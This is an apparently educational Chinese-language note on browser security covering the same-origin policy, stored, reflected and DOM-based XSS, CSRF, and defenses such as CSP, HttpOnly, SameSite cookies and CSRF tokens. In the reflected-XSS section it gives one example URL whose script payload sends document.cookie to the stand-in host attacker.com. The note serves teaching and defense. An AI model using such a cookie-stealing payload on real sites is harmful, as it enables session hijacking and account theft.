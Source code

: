 # 浏览器安全

## 同源策略

如果两个 URL 的协议、域名和端口都相同，我们就称这两个 URL 同源。

```js
http://store.company.com/dir/page.html

http://store.company.com/dir2/other.html // 同源，路径不同
https://store.company.com/secure.html // 不同源，协议不同
http://news.company.com/dir/other.html  // 不同源，域名不同
http://store.company.com:81/dir/etc.html // 不同源，端口不同
```

同源体现在三个方面

* DOM 层面。只有同源的页面才能通过 window.opener 拿到上一个页面的 window 对象去修改 dom
* 数据层面。Cookie、IndexDB、LocalStorage 这些数据在同源的页面下才能访问
* 网络层面。同源策略限制了通过 XMLHttpRequest 等方式将站点的数据发送给不同源的站点。

## 跨站脚本攻击（XSS）

XSS 全称是 Cross Site Scripting，为了与“CSS”区分开来，故简称 XSS，翻译过来就是“跨站脚本”。XSS 攻击是指黑客往 HTML 文件中或者 DOM 中注入恶意脚本，从而在用户浏览页面时利用注入的恶意脚本对用户实施攻击的一种手段。

### XSS 可以做什么

* 可以窃取 Cookie 信息。恶意 JavaScript 可以通过“document.cookie”获取 Cookie 信息，然后通过 XMLHttpRequest 或者 Fetch 加上 CORS 功能将数据发送给恶意服务器；恶意服务器拿到用户的 Cookie 信息之后，就可以在其他电脑上模拟用户的登录，然后进行转账等操作。
* 可以监听用户行为。恶意 JavaScript 可以使用“addEventListener”接口来监听键盘事件，比如可以获取用户输入的信用卡等信息，将其发送到恶意服务器。黑客掌握了这些信息之后，又可以做很多违法的事情。
* 可以通过修改 DOM 伪造假的登录窗口，用来欺骗用户输入用户名和密码等信息。
* 还可以在页面内生成浮窗广告，这些广告会严重地影响用户体验。

### XSS 如何注入

* 存储型 XSS 攻击

首先黑客利用站点漏洞将一段恶意 JavaScript 代码提交到网站的数据库中；然后用户向网站请求包含了恶意 JavaScript 脚本的页面；当用户浏览该页面的时候，恶意脚本就会将用户的 Cookie 信息等数据上传到服务器。

例如，2015 年喜马拉雅就被曝出了存储型 XSS 漏洞。起因是在用户设置专辑名称时，服务器对关键字过滤不严格，比如可以将专辑名称设置为一个引入了外部 js 代码的 script 标签。喜马拉雅的服务器会保存该段 JavaScript 代码到数据库中。然后当用户打开黑客设置的专辑时，这段代码就会在用户的页面里执行，这样就可以通过 XMLHttpRequest 或者 Fetch 将用户的 Cookie 数据上传到黑客的服务器。黑客拿到了用户 Cookie 信息之后，就可以利用 Cookie 信息在其他机器上登录该用户的账号，并利用用户账号进行一些恶意操作。

* 反射型 XSS 攻击

用户将一段含有恶意代码的请求提交给 Web 服务器，Web 服务器接收到请求时，又将恶意代码反射给了浏览器端，这就是反射型 XSS 攻击。在现实生活中，黑客经常会通过 QQ 群或者邮件等渠道诱导用户去点击这些恶意链接。Web 服务器不会存储反射型 XSS 攻击的恶意脚本，这是和存储型 XSS 攻击不同的地方。

例如，某个网站的错误页面是简单获取 url 参数中的 msg 参数然后插入错误页面中显示。那么黑客就可以诱使用户点击一个联机：`https//somesite.com/error.html?msg=<script>var+i=newImage;i.src="http://attacker.com"%2bdocument.cookie;</script>`。这样用户点击后后面的恶意代码就会执行，会生成一个图片，然后请求黑客的网址将 cookie 上传至黑客的服务器。

* 基于 DOM 的 XSS 攻击

基于 DOM 的 XSS 攻击是不牵涉到页面 Web 服务器的。具体来讲，黑客通过各种手段将恶意脚本注入用户的页面中，比如通过网络劫持在页面传输过程中修改 HTML 页面的内容，这种劫持类型很多，有通过 WiFi 路由器劫持的，有通过本地恶意软件来劫持的，它们的共同点是在 Web 资源传输过程或者在用户使用页面的过程中修改 Web 页面的数据。

### 如何阻止 XSS

1. 服务器对输入脚本进行过滤或转码。将请求提交内容中的 js 代码过滤掉，可以进行转义。
2. CSP（Content-Security-Policy 内容安全策略）。
    * 限制加载其他域下的资源文件，这样即使黑客插入了一个 JavaScript 文件，这个 JavaScript 文件也是无法被加载的；
    * 禁止向第三方域提交数据，这样用户数据也不会外泄；
    * 禁止执行内联脚本和未授权的脚本；
    * 还提供了上报机制，这样可以帮助我们尽快发现有哪些 XSS 攻击，以便尽快修复问题。
3. 使用 HttpOnly 属性。HttpOnly 是服务器通过 HTTP 响应头来设置的。set-cookie 属性值最后使用 HttpOnly 来标记该 Cookie。使用 HttpOnly 标记的 Cookie 只能使用在 HTTP 请求过程中，所以无法通过 JavaScript 来读取这段 Cookie。

## CSRF

CSRF 英文全称是 Cross-site request forgery，所以又称为“跨站请求伪造”，是指黑客引诱用户打开黑客的网站，在黑客的网站中，利用用户的登录状态发起的跨站请求。简单来讲，CSRF 攻击就是黑客利用了用户的登录状态，并通过第三方的站点来做一些坏事。

### CSRF 攻击方式

1. 自动发起 Get 请求。假设网站有一个转账的接口，打开黑客的链接后，将请求接口隐藏在 img 标签内，欺骗浏览器这是一张图片资源。当该页面被加载时，浏览器会自动发起 img 的资源请求，如果服务器没有对该请求做判断的话，那么服务器就会认为该请求是一个转账请求，于是用户账户上的钱就被转移到黑客的账户上去了。
2. 自动发起 POST 请求。黑客在页面中创建一个隐藏的表单，用户打开黑客链接后，隐藏的表单会自动执行提交执行转账操作。
3. 引诱用户点击链接。链接的地址其实是调用转账接口，点击后就会执行转账操作。

和 XSS 不同的是，CSRF 攻击不需要将恶意代码注入用户的页面，仅仅是利用服务器的漏洞和用户的登录状态来实施攻击。

### 如何防止 CSRF

1. 充分利用好 Cookie 的 SameSite 属性。在 HTTP 响应头中，通过 set-cookie 字段设置 Cookie 时，可以带上 SameSite 选项。SameSite 选项通常有 Strict、Lax 和 None 三个值。
    * Strict 最为严格。如果 SameSite 的值是 Strict，那么浏览器会完全禁止第三方 Cookie。
    * Lax 相对宽松一点。在跨站点的情况下，从第三方站点的链接打开和从第三方站点提交 Get 方式的表单这两种方式都会携带 Cookie。但如果在第三方站点中使用 Post 方法，或者通过 img、iframe 等标签加载的 URL，这些场景都不会携带 Cookie。
    * 而如果使用 None 的话，在任何情况下都会发送 Cookie 数据。
2. 验证请求的来源站点。Referer 是 HTTP 请求头中的一个字段，记录了该 HTTP 请求的来源地址。但在服务器端验证请求头中的 Referer 并不是太可靠，因此标准委员会又制定了 Origin 属性，在一些重要的场合，比如通过 XMLHttpRequest、Fecth 发起跨站请求或者通过 Post 方法发送请求时，都会带上 Origin 属性。Origin 属性只包含了域名信息，并没有包含具体的 URL 路径，这是 Origin 和 Referer 的一个主要区别。服务器的策略是优先判断 Origin，如果请求头中没有包含 Origin 属性，再根据实际情况判断是否使用 Referer 值。
3. CSRF Token。
    1. 第一步，在浏览器向服务器发起请求时，服务器生成一个 CSRF Token。CSRF Token 其实就是服务器生成的字符串，然后将该字符串植入到返回的页面中。
    2. 第二步，在浏览器端如果要发起转账的请求，那么需要带上页面中的 CSRF Token，然后服务器会验证该 Token 是否合法。如果是从第三方站点发出的请求，那么将无法获取到 CSRF Token 的值，所以即使发出了请求，服务器也会因为 CSRF Token 不正确而拒绝请求。